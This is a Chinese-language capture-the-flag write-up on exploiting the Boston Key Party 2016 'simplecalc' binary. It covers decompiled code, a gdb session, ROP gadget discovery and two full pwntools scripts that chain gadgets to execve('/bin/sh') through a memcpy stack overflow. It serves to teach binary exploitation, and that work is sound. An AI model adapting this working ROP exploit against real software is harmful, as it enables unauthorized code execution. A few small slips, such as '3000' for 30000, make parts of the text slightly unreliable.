



# 2.9 Boston Key Part 2016 Simple Calc ROP链构造
2021.03.02 更新

查看程序

```python
[*] '/home/vuln/nightmare/modules/07-bof_static/bkp16_simplecalc/simplecalc'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
开启了NX，说明栈不可执行，可以构造ROP链来溢出

运行程序：



用IDA查看代码进行分析

主函数代码如下：

```cpp
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v3; // edx
  int v4; // ecx
  int v5; // er8
  int v6; // er9
  int v7; // edx
  int v8; // ecx
  int v9; // er8
  int v10; // er9
  int result; // eax
  int v12; // edx
  int v13; // ecx
  int v14; // er8
  int v15; // er9
  char v16; // [rsp+0h] [rbp-50h]
  char v17; // [rsp+0h] [rbp-50h]
  char v18[40]; // [rsp+10h] [rbp-40h] BYREF
  int v19; // [rsp+38h] [rbp-18h] BYREF
  int v20; // [rsp+3Ch] [rbp-14h] BYREF
  __int64 v21; // [rsp+40h] [rbp-10h]
  int i; // [rsp+4Ch] [rbp-4h]

  v20 = 0;
  setvbuf(stdin, 0LL, 2LL, 0LL);
  setvbuf(stdout, 0LL, 2LL, 0LL);
  print_motd();
  printf((unsigned int)"Expected number of calculations: ", 0, v3, v4, v5, v6, (char)argv);
  _isoc99_scanf((unsigned int)"%d", (unsigned int)&v20, v7, v8, v9, v10, v16);      //用户输入保存到v20，这里是用来保存需要进行多少次循环计算的
  handle_newline();
  if ( v20 <= 255 && v20 > 3 )      //输入值的合法范围
  {
    v21 = malloc(4 * v20);          //给v21分配的内存为 4*v20
    for ( i = 0; i < v20; ++i )
    {
      print_menu();
      _isoc99_scanf((unsigned int)"%d", (unsigned int)&v19, v12, v13, v14, v15, v17);   //选择菜单
      handle_newline();
      switch ( v19 )
      {
        case 1:
          adds();
          *(_DWORD *)(v21 + 4LL * i) = dword_6C4A88;            //这里是保存adds函数的执行结果，具体下面分析 
          break;
        case 2:
          subs();
          *(_DWORD *)(v21 + 4LL * i) = dword_6C4AB8;
          break;
        case 3:
          muls();
          *(_DWORD *)(v21 + 4LL * i) = dword_6C4AA8;
          break;
        case 4:
          divs();
          *(_DWORD *)(v21 + 4LL * i) = dword_6C4A98;
          break;
        case 5:
          memcpy(v18, v21, 4 * v20);                    //漏洞触发点,v18长度为40,只要我们输入的v20大于10,在这里就会覆盖掉v18之后的地址，造成缓冲区溢出 
          free(v21);
          return 0;
        default:
          puts("Invalid option.\n");
          break;
      }
    }
    free(v21);
    result = 0;
  }
  else
  {
    puts("Invalid number.");
    result = 0;
  }
  return result;
}
```
来跟踪下dword\_6C4A88， 看看adds函数是如何把值保存在它之中的



从交叉引用中可以看到，在adds+96的地址对它进行了写操作，我们查看下这里的代码

```cpp
__int64 __fastcall adds(__int64 a1, int a2, int a3, int a4, int a5, int a6)
{
  int v6; // edx
  int v7; // ecx
  int v8; // er8
  int v9; // er9
  int v10; // edx
  int v11; // ecx
  int v12; // er8
  int v13; // er9
  int v14; // edx
  int v15; // ecx
  int v16; // er8
  int v17; // er9
  int v18; // ecx
  int v19; // er8
  int v20; // er9

  printf((unsigned int)"Integer x: ", a2, a3, a4, a5, a6);
  _isoc99_scanf((unsigned int)"%d", (unsigned int)&add, v6, v7, v8, v9);
  handle_newline();
  printf((unsigned int)"Integer y: ", (unsigned int)&add, v10, v11, v12, v13);
  _isoc99_scanf((unsigned int)"%d", (unsigned int)&dword_6C4A84, v14, v15, v16, v17);
  handle_newline();
  if ( (unsigned int)add <= 0x27 || (unsigned int)dword_6C4A84 <= 0x27 )
  {
    puts("Do you really need help calculating such small numbers?\nShame on you... Bye");
    exit(0xFFFFFFFFLL);
  }
  dword_6C4A88 = add + dword_6C4A84;    //把输入的x+y保存到dword_6C4A88
  return printf((unsigned int)"Result for x + y is %d.\n\n", add + dword_6C4A84, add, v18, v19, v20);
}
```
使用gdb进行调试，因为没有开启PIE，所以地址是不变的，我们在memcpy后面下断点



```python
gef➤  b *0x000000000040154A
Breakpoint 1 at 0x40154a
gef➤  r
Starting program: /home/vuln/nightmare/modules/07-bof_static/bkp16_simplecalc/simplecalc

        |#------------------------------------#|
        |         Something Calculator         |
        |#------------------------------------#|

Expected number of calculations: 5
Options Menu:
 [1] Addition.
 [2] Subtraction.
 [3] Multiplication.
 [4] Division.
 [5] Save and Exit.
=> 1
Integer x: 10000
Integer y: 20000
Result for x + y is 30000.

Options Menu:
 [1] Addition.
 [2] Subtraction.
 [3] Multiplication.
 [4] Division.
 [5] Save and Exit.
=> 5

Breakpoint 1, 0x000000000040154a in main ()
__main__:2421: DeprecationWarning: invalid escape sequence '\A'
[ Legend: Modified register | Code | Heap | Stack | String ]
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0x00007fffffffe370  →  0x0000000000007530 ("0u"?)
$rbx   : 0x00000000004002b0  →  <_init+0> sub rsp, 0x8
$rcx   : 0x0
$rdx   : 0x0
$rsp   : 0x00007fffffffe360  →  0x00007fffffffe498  →  0x00007fffffffe6d2  →  "/home/vuln/nightmare/modules/07-bof_static/bkp16_s[...]"
$rbp   : 0x00007fffffffe3b0  →  0x00000000006c1018  →  0x000000000042f230  →  <__stpcpy_ssse3+0> mov rcx, rsi
$rsi   : 0x00000000006c8c04  →  0x0002040100000000
$rdi   : 0x00007fffffffe384  →  0x00401c7700007fff
$rip   : 0x000000000040154a  →  <main+455> mov rax, QWORD PTR [rbp-0x10]
$r8    : 0x0
$r9    : 0x0
$r10   : 0x5
$r11   : 0x0
$r12   : 0x0
$r13   : 0x0000000000401c00  →  <__libc_csu_init+0> push r14
$r14   : 0x0000000000401c90  →  <__libc_csu_fini+0> push rbx
$r15   : 0x0
$eflags: [ZERO carry PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0000 $gs: 0x0000
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x00007fffffffe360│+0x0000: 0x00007fffffffe498  →  0x00007fffffffe6d2  →  "/home/vuln/nightmare/modules/07-bof_static/bkp16_s[...]"      ← $rsp
0x00007fffffffe368│+0x0008: 0x0000000100400e45
0x00007fffffffe370│+0x0010: 0x0000000000007530 ("0u"?)   ← $rax
0x00007fffffffe378│+0x0018: 0x0000000000000000
0x00007fffffffe380│+0x0020: 0x00007fff00000000
0x00007fffffffe388│+0x0028: 0x0000000000401c77  →  <__libc_csu_init+119> add rbx, 0x1
0x00007fffffffe390│+0x0030: 0x00000000004002b0  →  <_init+0> sub rsp, 0x8
0x00007fffffffe398│+0x0038: 0x0000000500000005
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
     0x40153d <main+442>       rex.RB ror BYTE PTR [r8-0x77], 0xce
     0x401542 <main+447>       mov    rdi, rax
     0x401545 <main+450>       call   0x4228d0 <memcpy>
 →   0x40154a <main+455>       mov    rax, QWORD PTR [rbp-0x10]
     0x40154e <main+459>       mov    rdi, rax
     0x401551 <main+462>       call   0x4156d0 <free>
     0x401556 <main+467>       mov    eax, 0x0
     0x40155b <main+472>       jmp    0x401588 <main+517>
     0x40155d <main+474>       mov    edi, 0x494402
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "simplecalc", stopped, reason: BREAKPOINT
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x40154a → main()
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤
```
我们先来确定输入的变量在内存中的名称，v20(var\_14)为输入的要计算的此时，v21(var\_10)为计算的结果

然后我们搜索返回的结果30000，也就是变量v21的初始地址

3000转换成16进制为0x7530

```python
[+] In '[heap]'(0x6c3000-0x6e9000), permission=rw-
  0x6c4a88 - 0x6c4a8a  →   "0u" 
  0x6c8bf0 - 0x6c8bf2  →   "0u" 
[+] In '[stack]'(0x7ffffffde000-0x7ffffffff000), permission=rw-
  0x7fffffffb4c8 - 0x7fffffffb4ca  →   "0u" 
  0x7fffffffe260 - 0x7fffffffe262  →   "0u" 
gef➤  i f
Stack level 0, frame at 0x7fffffffe2b0:
 rip = 0x40154a in main; saved rip = 0x40176c
 Arglist at 0x7fffffffe2a0, args: 
 Locals at 0x7fffffffe2a0, Previous frame's sp is 0x7fffffffe2b0
 Saved registers:
  rbp at 0x7fffffffe2a0, rip at 0x7fffffffe2a8
```
0x7fffffffe2a8 - 0x7fffffffe260 = 72 ，所以v21变量到rip之间相差72个字节，也就是72/4=18个int(4 byte)，但是这里有一点要注意，在栈中，v21变量在v20和eip之间，如果把payload填在这中间，那么接下来的代码：

```python
free(v21);
```
会进行free调用，就无法造成溢出覆盖，查看memcpy的源码:

```cpp
//free函数
__libc_free (void *mem)
{
  mstate ar_ptr;
  mchunkptr p;                          /* chunk corresponding to mem */
  void (*hook) (void *, const void *)
    = atomic_forced_read (__free_hook);
  if (__builtin_expect (hook != NULL, 0))
    {
      (*hook)(mem, RETURN_ADDRESS (0));
      return;
    }
  if (mem == 0)                              /* free(0) has no effect */
    return;
```
可以看到，如果要释放的内存本身就是0x00，那么就直接返回，所以在v21到rip之间，只需要填充\\x00就可，然后接下来就是寻找可以写入payload的地址，构造ROP

使用gdb查看内存中那些地方可写，在0x6c0200的地址，可以看到很多的空字节，所以这里可以写入我们的payload，也就是'/bin/sh'字符串

```python
gef➤  vmmap 
Start              End                Offset             Perm Path
0x0000000000400000 0x00000000004c1000 0x0000000000000000 r-x /home/vuln/nightmare/modules/07-bof_static/bkp16_simplecalc/simplecalc
0x00000000006c0000 0x00000000006c3000 0x00000000000c0000 rw- /home/vuln/nightmare/modules/07-bof_static/bkp16_simplecalc/simplecalc
0x00000000006c3000 0x00000000006e9000 0x0000000000000000 rw- [heap]
0x00007ffff7ffb000 0x00007ffff7ffe000 0x0000000000000000 r-- [vvar]
0x00007ffff7ffe000 0x00007ffff7fff000 0x0000000000000000 r-x [vdso]
0x00007ffffffde000 0x00007ffffffff000 0x0000000000000000 rw- [stack]
0xffffffffff600000 0xffffffffff601000 0x0000000000000000 r-x [vsyscall]
gef➤  x/50w 0x6c0200
0x6c0200:   0x0 0x0 0x0 0x0
0x6c0210:   0x0 0x0 0x0 0x0
0x6c0220:   0x0 0x0 0x0 0x0
0x6c0230:   0x0 0x0 0x0 0x0
0x6c0240:   0x0 0x0 0x0 0x0
0x6c0250:   0x0 0x0 0x0 0x0
0x6c0260:   0x0 0x0 0x0 0x0
0x6c0270:   0x0 0x0 0x0 0x0
0x6c0280:   0x0 0x0 0x0 0x0
0x6c0290:   0x0 0x0 0x0 0x0
0x6c02a0:   0x0 0x0 0x0 0x0
0x6c02b0:   0x0 0x0 0x0 0x0
0x6c02c0:   0x0 0x0

```
构造ROP一般是通过调用syscall函数，来执行一些函数，关于Linux中syscall函数的说明：[https://blog.rchapman.org/posts/Linux\_System\_Call\_Table\_for\_x86\_64/](https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/)

从博客中可以得到syscall函数接收几个参数，x64中分别为rax, rdi, rsi, rdx, r10, r8, r9, 在这里我们要执行命令，所以需要调用sys\_execve函数，那么必须的参数为rax, rdi, rsi, rdx，对应值如下：

```cpp
rax  59 => sys_execve
rdi  ptr to '/bin/sh'   //first arg
rsi  0x0                //second arg
rdx  0x0                //third arg
```
接下来要构造ROP，那么需要找到一些关键的指令 ROPgadget --binary simplecalc --ropchain

比如

```python
pop rax ; ret
pop rdi ; ret
pop rsi ; ret
pop rdx ; ret
mov qword ptr [xxx], xxx; ret
syscall
```
使用ROPgadget来查找

```cpp
[+] Gadget found: 0x470f11 mov qword ptr [rsi], rax ; ret
[+] Gadget found: 0x401c87 pop rsi ; ret
[+] Gadget found: 0x44db34 pop rax ; ret
[+] Gadget found: 0x401b73 pop rdi ; ret
[+] Gadget found: 0x437a85 pop rdx ; ret
[+] Gadget found: 0x400488 syscall
```
写入地址/bin/sh的地址为0x6c0500

现在来构造ROP

```cpp
# write /bin/sh to 0x6c0500
pop rsi, 0x6c0500; ret
pop rax, '/bin/sh\x00'; ret
mov qword ptr [rsi], rax; ret

# fill arguments to syscall
pop rax, 0x3b; ret
pop rdi, 0x6c0500; ret   //0x6c0500 ptr to /bin/sh\x00
pop rsi, 0; ret
pop rdx; 0; ret

syscall()
```
现在用pwntools来进行exp开发

```python
#!/usr/bin/pyton

from pwn import *

target = process('./simplecalc')

target.recvuntil('calculations: ')
target.sendline('100')

poprax = 0x44db34
poprsi = 0x401c87
poprdi = 0x401b73
poprdx = 0x437a85
write = 0x470f11
shelladdr = 0x6c0200
syscall = 0x400488


def addSingle(x):
    target.recvuntil('=> ')
    target.sendline('1')
    target.recvuntil('Integer x: ')
    target.sendline('100')
    target.recvuntil('Integer y: ')
    # 因结果是x+y，如果y不减掉100，那么输出的地址就是+100后的地址，所以这里需要减掉100
    target.sendline(str(x - 100))

def add(z):
    ## because is x64, example:
    # address is : 0x0000000012345678
    # y = 0x00000000
    # x = 0x1234568
    # 因为是小端64位系统，所以这里要分批写入，每次4个字节
    x = z & 0xffffffff
    y = (z & 0xffffffff00000000) >> 32
    addSingle(x)
    addSingle(y)


for x in xrange(9):
    '''
    fill up the space between v21 and the eip
    '''
    add(0x00)


'''
start write ROP chain
'''

add(poprsi)
add(shelladdr)
add(poprax)
add(0x0068732f6e69622f) # /bin/sh in hex
add(write)

# fill up arguments

add(poprax)
add(0x3b)
add(poprdi)
add(shelladdr)
add(poprsi)
add(0x0)
add(poprdx)
add(0x0)

add(syscall)

target.sendline('5') # trigger the overflow

target.interactive()
```
```python
# 2021.03.04 update
#!/usr/bin/python

from pwn import *

target = process('./simplecalc')

target.recvuntil('calculations: ')
target.sendline('100')

poprax = 0x44db34
poprsi = 0x401c87
poprdi = 0x401b73
poprdx = 0x437a85
mov = 0x470f11
shellAddr = 0x6c0200
syscall = 0x400488

'''
add low or high part
'''
def addPart(x):
    target.recvuntil('=> ')
    target.sendline('1')
    target.recvuntil('Integer x: ')
    target.sendline('200')
    target.recvuntil('Integer y: ')
    target.sendline(str(x - 200))


'''
divide low part and high part
'''

def add(z):
    x = z & 0xffffffff  # 32 bit
    y = (z & 0xffffffff00000000) >> 32
    addPart(x)
    addPart(y)

'''
fill up the v21 between rip
'''

for _ in range(9):
    # per add is 8 bytes
    add(0x00)

'''
start the ROP chain
'''

add(poprsi) # the address to write '/bin/sh'
add(shellAddr)
add(poprax)
add(0x0068732f6e69622f) # string /bin/sh\x00
# register all ready, mov ptr[rsi], rax
add(mov)

# now start to call syscall
add(poprax)
add(0x3b)   # 59 means sys_execue
add(poprdi)
add(shellAddr)
add(poprsi)
add(0x0)
add(poprdx)
add(0x0)
add(syscall)

target.sendline('5')
target.interactive()
```
尝试在堆中 0x6c6000 写入 shell 失败